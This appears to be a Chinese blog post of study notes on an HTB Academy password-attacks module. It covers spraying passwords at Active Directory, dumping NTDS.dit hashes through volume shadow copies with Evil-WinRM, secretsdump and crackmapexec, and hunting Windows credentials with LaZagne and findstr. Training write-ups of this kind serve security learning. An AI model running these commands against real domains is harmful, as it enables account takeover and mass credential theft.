





# htb academy笔记-module-Password Attacks（五）

> 原创 于 2025-12-13 16:27:18 发布 · 公开 · 839 阅读 · 26 · 29 · CC 4.0 BY-SA版权 版权声明：本文为博主原创文章，遵循 CC 4.0 BY-SA 版权协议，转载请附上原文出处链接和本声明。
> 文章链接：https://blog.csdn.net/weixin_51439723/article/details/155889413

##  **一、Attacking Active Directory and NTDS.dit** 

一般使用windows就会使用AD这个重要的directory service，本节介绍通过AD账户提取credentials、从NTD.dit文件中dumping hashes。

先了解一下win系统加入域的auth过程。一旦win系统加入域后它将不再默认用SAM数据库来验证logon，而是把logon验证请求发到domain controller，除非你想专门用SAM来认证本地账户，如以hostname\username的方式指定(如WS01\nameofuser)、在输username时先输

.\

来直连本设备。

这些知识在后面的NTDS attacks也有用。

###  **1. 用NetExec对AD  account做字典攻击** 

这个过程会noisy（容易被监测到），所以容易被一些Group Policy禁止。

我们需要获取用户名

- 

一个办法是在该机构的相关网站如社交媒体或官网上找到员工信息，因为公司账号的username都是由名字convention而来。以Jane Jill Doe为例：

首字母+lastname: jdoe

首字母+中间名字字母+lastname: jjdoe

firstname+lastname: janedoe

firstname+.+lastname: jane.doe

lastname+.+firstname: doe.jane

绰号：doedoehacksstuff

- 

另一个路径是，邮箱的前缀

注：可以直接google邮箱后缀，一般也可以得到几个能用的，也可能用脚本爬社交媒体网页提取一些能用的，但有时一些机构为了防止这种攻击会把外面的用户名设置成乱码如a907，但是内部还是用的姓名相关。还可以如谷歌搜索"inlanefreight.com filetype:pdf"，然后在文件属性里可以看到可用的username，等等等等。

####  **A. 做username list** 

通过上面办法我们获得了几个名字：

- Ben Williamson

- Bob Burgerstien

- Jim Stevenson

- Jill Johnson

- Jane Doe

可以通过上述办法做convention，也可以用工具如 [Username Anarchy](https://github.com/urbanadventurer/username-anarchy) ，使用：

./username-anarchy -i /home/ltnbob/names.txt

 

当然，如果能从其他地方找到convention就不需要这么麻烦。

####  **B. 获得后缀** 

有时@后面的内容我们也不是很清楚，这时候除了搜索还有一种办法：

crackmapexec smb[ip]

 

####  **C. 用kerbrute验证哪些usernames存在** 

如果convention的username都invalid那爆破再多pw都没用，这时用kerbrute:

./kerbrute_linux_amd64 userenum--dc10.129.201.57--domain inlanefreight.localnames.txt

其中--domain inlanefreight.local是域的内容，即@后面的东西

 

####  **D. 用NetExec做爆破** 

有合适的username后，结合smb协议对域controller做爆破：

netexec smb10.129.201.57-u bwilliamson-p/usr/share/wordlists/fasttrack.txt

 

截至2022.1，win的group policies默认是不开启“监测到爆破攻击就封禁账户”的。

####  **E. Event logs** 

 

上述行为Event Viewer都有记录。

一旦拿到credentials后我们可以试着远程访问域controller并拿到NTDS. dit文件

###  **2. 拿到NTDS.dit** 

NTDS即NT Directory Service，AD用来组织网络资源，.dit是directory info tree，该文件存储所有域的usernames, pw hashed等信息。

####  **A. 用Evil-WinRM连DC** 

先用前面拿到的credentials连DC：

evil-winrm-i10.129.201.57-u bwilliamson-p'P@55w0rd!'

这时Evil-WinRM用Windows Remote Management服务和PowerShellRemoting协议来创建一个PowerShell session，用这个session来连到目标

####  **B. 查看权限** 

要拿到NTDS.dit需要local admin(Administrators Group)或Domain Group(Domain admins group)权限，所以连接后可以看下：

net localgroup

 

再看这个账户的权限：

net user bwilliamson

 

可以看到什么权限都有

####  **C. 创建C盘的volume shadow** 

用vssadmin创建c盘的vss（volume shadow copy service），一般这个.dit文件在c盘，vss的一个特点是copy时不需要像word这样关闭某些程序：

vssadmin CREATE SHADOW/For=C:

 

####  **D. 在vss里copy** **NTDS.dit** 

从上面的c copy中取出来：

cmd.exe/c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

 

然后用smb从这个DC转移出来

注：和SAM一样，提取NTDS.dit也被存在SYSTEM里的key加密，所以这个也需要

####  **E. 提取hashes** 

impacket-secretsdump-ntds NTDS.dit-system SYSTEM LOCAL

 

####  **F. 另一种办法：完成上述所有步骤** 

netexec smb10.129.201.57-u bwilliamson-p P@55w0rd! [-]() M ntdsutil

其中-M ntdsutil表示调用ntdsutil这个module

 

####  **G. Exercise中dump NTDS.dit时没能成功，不如直接用crackmqapexec:** 

crackmapexec smb10.129.201.57-u bwilliamson-p P@55w0rd!-M ntds

一键获得hash

##  **二、Credential Hunting in Windows** 

不管通过GUI还是CLI可以访问到windows，下一步可以拿credentials，如搜索整个文件系统、各种应用。假设我们已经通过RDP可以访问win10的IT admin

###  **1. Search-centric** 

我们需要设想credentials可能会放在什么地方以及什么时候会被使用

####  **A. 搜索的关键词** 

Passwords

Passphrases

Keys

Username

User account

Creds

Users

Passkeys

configuration

dbcredential

dbpassword

pwd

Login

Credentials

###  **2. 工具** 

####  **A. 常规** 

 

####  **B． LaZagne** 

针对不同模块搜索：

browsers：一般会被加密，但是网上也可以找到解密办法如 [firefox_decrypt](https://github.com/unode/firefox_decrypt) 、 [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords) 

chats: 聊天软件如Skype

mails: 如outlook

memory：从memory中拿密码，针对KeePass和LSASS

sysadmin: 从不同sysadmin工具（如OpenVPN, WinSCP）的configfile里拿密码

windows：提取windows相关的credentials，针对如LSA secrets, Credential Manager等

wifi

target上没有LaZagne这个工具我们可以在自己的机器上下一个然后用rdp传过去
xfreerdp /v:192.168.1.10 /u:Administrator /p:'Password123' /drive:share,/home/kali/share

然后打开：

startLaZagne.exe all

这样会运行所有模块

 

加上参数-vv可以看到详情，也可以在github页面看到

####  **C． findstr** 

可以结合前面的common key terms使用

findstr/SIM/C:"password"*.txt*.ini*.cfg*.config*.xml*.git*.ps1*.yml

###  **3． 选择** 

工具和key terms非常多，所以我们需要根据不同的情况来选择，如win server和win desktop就不一样，以及最重要的是target是用来做什么的。有时甚至是我们随意浏览的时候就能发现credentials

credential hunting时需要知道的：

SYSVOL share里Group Policy的密码

SYSVOL share里scripts的密码

IT shares里scritpts的密码

IT shares和dev machines里web.config的密码

unattend.xml里的密码

AD user或computer description fields里的密码

KeePass数据库（如果我们有搞到master的密码）

在用户系统和shares上找

在用户系统、shares、Sharepoint上找如pass.txt, passwords.docx, password.xlsl这样的文件
